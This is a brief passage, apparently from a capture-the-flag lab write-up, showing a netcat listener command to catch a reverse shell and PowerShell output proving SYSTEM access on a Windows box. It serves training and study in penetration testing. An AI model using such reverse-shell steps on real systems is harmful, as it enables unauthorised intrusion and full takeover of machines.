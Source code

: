 Catch the shell on `nc -nlvp 6969`

![shell](/assets/img/conceal/conceal-jp-shell.png)


```
PS C:\users\administrator\desktop> type proof.txt
57xxxxxxxxxxxxxxxxxxxxxxxxxxxx08
PS C:\users\administrator\desktop> whoami
nt authority\system
PS C:\users\administrator\desktop> 
```

:)



